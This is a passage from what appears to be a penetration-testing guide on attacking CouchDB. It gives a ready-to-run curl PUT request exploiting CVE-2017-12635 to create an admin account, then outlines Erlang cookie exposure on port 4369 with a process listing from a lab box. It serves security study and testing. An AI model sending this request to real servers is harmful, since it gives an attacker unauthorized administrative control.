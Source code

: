 ```bash
curl -X GET http://IP:5984/{dbname}/{id}
curl http://localhost:5984/simpsons/f0042ac3dc4951b51f056467a1000dd9
#Example response:
{"_id":"f0042ac3dc4951b51f056467a1000dd9","_rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329","character":"Homer","quote":"Doh!"}
```

## CouchDB Privilege Escalation [CVE-2017-12635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-12635)

Thanks to the differences between Erlang and JavaScript JSON parsers you could **create an admin user** with credentials `hacktricks:hacktricks` with the following request:

```bash
curl -X PUT -d '{"type":"user","name":"hacktricks","roles":["_admin"],"roles":[],"password":"hacktricks"}' localhost:5984/_users/org.couchdb.user:hacktricks -H "Content-Type:application/json"
```

[**More information about this vuln here**](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html).

## CouchDB RCE

### **Erlang Cookie Security Overview**

Example [from here](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

In the CouchDB documentation, specifically in the section concerning cluster set-up ([link](http://docs.couchdb.org/en/stable/cluster/setup.html#cluster-setup)), the use of ports by CouchDB in a cluster mode is discussed. It's mentioned that, as in standalone mode, port `5984` is used. Additionally, port `5986` is for node-local APIs, and importantly, Erlang requires TCP port `4369` for the Erlang Port Mapper Daemon (EPMD), facilitating node communication within an Erlang cluster. This setup forms a network where each node is interlinked with every other node.

A crucial security advisory is highlighted regarding port `4369`. If this port is made accessible over the Internet or any untrusted network, the system's security heavily relies on a unique identifier known as the "cookie." This cookie acts as a safeguard. For instance, in a given process list, the cookie named "monster" might be observed, indicating its operational role in the system's security framework.

```
www-data@canape:/$ ps aux | grep couchdb
root        744  0.0  0.0   4240   640 ?        Ss   Sep13   0:00 runsv couchdb
root        811  0.0  0.0   4384   800 ?        S    Sep13   0:00 svlogd -tt /var/log/couchdb
homer       815  0.4  3.4 649348 34524 ?        Sl   Sep13   5:33 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/b
```

For those interested in understanding how this "cookie" can be exploited for Remote Code Execution (RCE) within the context of Erlang systems, a dedicated section is available for further reading. It details the methodologies for leveraging Erlang cookies in unauthorized manners to achieve control over systems. You can **[explore the detailed guide on abusing Erlang cookies for RCE here](4369-pentesting-erlang-port-mapper-daemon-epmd.md#erlang-cookie-rce)**.
